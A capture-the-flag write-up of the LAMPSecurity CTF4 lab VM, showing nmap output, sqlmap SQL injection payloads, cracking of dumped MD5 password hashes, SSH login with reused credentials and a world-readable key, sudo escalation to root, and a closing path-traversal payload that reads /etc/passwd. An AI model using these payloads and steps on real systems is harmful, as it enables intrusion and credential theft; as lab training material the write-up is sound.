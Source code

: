 Title:LAMPSecurity: CTF4
Date:08-29-2014
Category:CTF

I start the LAMPSecurity CTF4 challenge of vulnhub
[available here](http://vulnhub.com/entry/lampsecurity-ctf4,83/).

Let start with a simple nmap

  #nmap -A -oA ctf4 192.168.1.56
  Nmap 6.47 scan initiated Thu Aug 28 18:49:49 2014 as: nmap -A -oA ctf4 192.168.1.56
  Nmap scan report for 192.168.1.56
  Host is up (0.00058s latency).
  Not shown: 996 filtered ports
  PORT    STATE  SERVICE VERSION
  22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
  | ssh-hostkey: 
  |   1024 10:4a:18:f8:97:e0:72:27:b5:a4:33:93:3d:aa:9d:ef (DSA)
  |_  2048 e7:70:d3:81:00:41:b8:6e:fd:31:ae:0e:00:ea:5c:b4 (RSA)
  25/tcp  open   smtp    Sendmail 8.13.5/8.13.5
  | smtp-commands: ctf4.sas.upenn.edu Hello [192.168.1.97], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP, 
  |_ 2.0.0 This is sendmail version 8.13.5 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info 
  80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
  |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
  | http-robots.txt: 5 disallowed entries 
  |_/mail/ /restricted/ /conf/ /sql/ /admin/
  |_http-title:  Prof. Ehks 
  631/tcp closed ipp
  MAC Address: 00:0C:29:25:ED:A3 (VMware)
  Aggressive OS guesses: Linux 2.6.16 - 2.6.21 (98%), Linux 2.6.13 - 2.6.32 (96%), Control4 HC-300 home controller (96%), Lantronix SLC 8 terminal server (Linux 2.6) (96%), SNR SNR-S2960 switch (95%), SonicWALL Aventail EX-6000 VPN appliance (94%), Linux 2.6.8 - 2.6.30 (94%), Dell iDRAC 6 remote access controller (Linux 2.6) (94%), Linux 2.6.9 - 2.6.18 (94%), Linux 2.6.18 - 2.6.32 (94%)
  No exact OS matches for host (test conditions non-ideal).
  Network Distance: 1 hop
  Service Info: Host: ctf4.sas.upenn.edu; OS: Unix

We found a list of available services:
  * a SSH service on port 22
  * a mail service on port 25
  * a web service on port 80, note that there is five disallowed entries in robots.txt
  * and a close CUPS service on port 631

Let's take a look at the web site. It is a simple blog site with a XSS flaw on
the search engine.

INSERT IMAGE TODO

The article are indexed with a GET parameter id. This parameter is vulnerable to
an SQL injection. We launch sqlmap on it

#sqlmap -u 'http://192.168.1.56/index.html?page=blog&title=Blog&id=6' -p id --tables
  sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
  ---
  Place: GET
  Parameter: id
      Type: boolean-based blind
      Title: AND boolean-based blind - WHERE or HAVING clause
      Payload: page=blog&title=Blog&id=6 AND 2396=2396

      Type: UNION query
      Title: MySQL UNION query (NULL) - 5 columns
      Payload: page=blog&title=Blog&id=6 UNION ALL SELECT NULL,CONCAT(0x7172756f71,0x494c647a675a47595a55,0x7178657471),NULL,NULL,NULL#

      Type: AND/OR time-based blind
      Title: MySQL > 5.0.11 AND time-based blind
      Payload: page=blog&title=Blog&id=6 AND SLEEP(5)
  ---
  [19:44:24] [INFO] the back-end DBMS is MySQL
  web server operating system: Linux Fedora 5 (Bordeaux)
  web application technology: Apache 2.2.0, PHP 5.1.2
  back-end DBMS: MySQL 5.0.11
  [19:44:24] [INFO] fetching database names
  [19:44:24] [INFO] fetching tables for databases: 'calendar, ehks, information_schema, mysql, roundcubemail, test'
  Database: calendar
  [5 tables]
  +---------------------------------------+
  | phpc_calendars                        |
  | phpc_events                           |
  | phpc_sequence                         |
  | phpc_users                            |
  | uid                                   |
  +---------------------------------------+

  Database: roundcubemail
  [6 tables]
  +---------------------------------------+
  | session                               |
  | cache                                 |
  | contacts                              |
  | identities                            |
  | messages                              |
  | users                                 |
  +---------------------------------------+

  Database: ehks
  [3 tables]
  +---------------------------------------+
  | user                                  |
  | blog                                  |
  | comment                               |
  +---------------------------------------+

  Database: information_schema
  [16 tables]
  +---------------------------------------+
  | CHARACTER_SETS                        |
  | COLLATIONS                            |
  | COLLATION_CHARACTER_SET_APPLICABILITY |
  | COLUMNS                               |
  | COLUMN_PRIVILEGES                     |
  | KEY_COLUMN_USAGE                      |
  | ROUTINES                              |
  | SCHEMATA                              |
  | SCHEMA_PRIVILEGES                     |
  | STATISTICS                            |
  | TABLES                                |
  | TABLE_CONSTRAINTS                     |
  | TABLE_PRIVILEGES                      |
  | TRIGGERS                              |
  | USER_PRIVILEGES                       |
  | VIEWS                                 |
  +---------------------------------------+

  Database: mysql
  [17 tables]
  +---------------------------------------+
  | user                                  |
  | columns_priv                          |
  | db                                    |
  | func                                  |
  | help_category                         |
  | help_keyword                          |
  | help_relation                         |
  | help_topic                            |
  | host                                  |
  | proc                                  |
  | procs_priv                            |
  | tables_priv                           |
  | time_zone                             |
  | time_zone_leap_second                 |
  | time_zone_name                        |
  | time_zone_transition                  |
  | time_zone_transition_type             |
  +---------------------------------------+

Okay so there is a lot of database let's dump the ehks users table:

  # sqlmap -u 'http://192.168.1.56/index.html?page=blog&title=Blog&id=6' -p id -D  ehks -T user --dump
  +---------+-----------+----------------------------------+
  | user_id | user_name | user_pass                        |
  +---------+-----------+----------------------------------+
  | 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 |
  | 2       | achen     | b46265f1e7faa3beab09db5c28739380 |
  | 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 |
  | 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 |
  | 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 |
  | 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f |
  +---------+-----------+----------------------------------+

We save the hahses in a file (option proposed by sqlmap) and we launch john the
ripper on it:

  #john hashes --format=raw-md5
  sorzek:pacman
  jdurbin:Sue1978
  2 password hashes cracked, 4 left

We test the cracked password on:
  * the restricted part: there is two text files about how to blog and how to use the web mail
  * the admin part: with the two cracked accounts we can only write new article, that is not really useful for our CTF
  * the mail part: according to the instruction on the restricted part we can access the user's emails from here

We found in an email from sorzek to ghighland that he just add a number to is
useual password "undone" so we just tell john to try password from undone0 to
undone9999. We cracked an other password

  ghighland:undone1

Okay the same password seems to be used everywhere and I was a bit lost to how
to continue so I try the credentials on the ssh service: *it Works!*

First of all I logged with the jdurbin account.
There seems to be anything useful but in my search I saw that achen had an
ssh private key readable by everyone (a ppk one for Putty).
Okay lets use it to connect on the machine. It ask no password and we got a
shell, what now?

I try to see what was the difference with this account and I saw a pdf file
"linux_administration.pdf" so I tried to use the sudo command with `sudo -v` and
once again: *it works!*
So a simple `sudo su` give us the root rights.

*DONE*

Let resume :
  1. exploitation of the SQL injection
  2. cracked the hashes
  3. use the credentials on the SSH service
  4. find the ppk SSH key
  5. use it to connect on the achen account
  6. sudo su

That was a easy one !

Oh yeah we do not explore the lead of the file injection in the
page GET parameter:

  http://192.168.1.56/index.html?page=../../../../../../etc/passwd%00&title=Blog&id=5

Moreover the root password "root1234" where is the bash_history of achen.

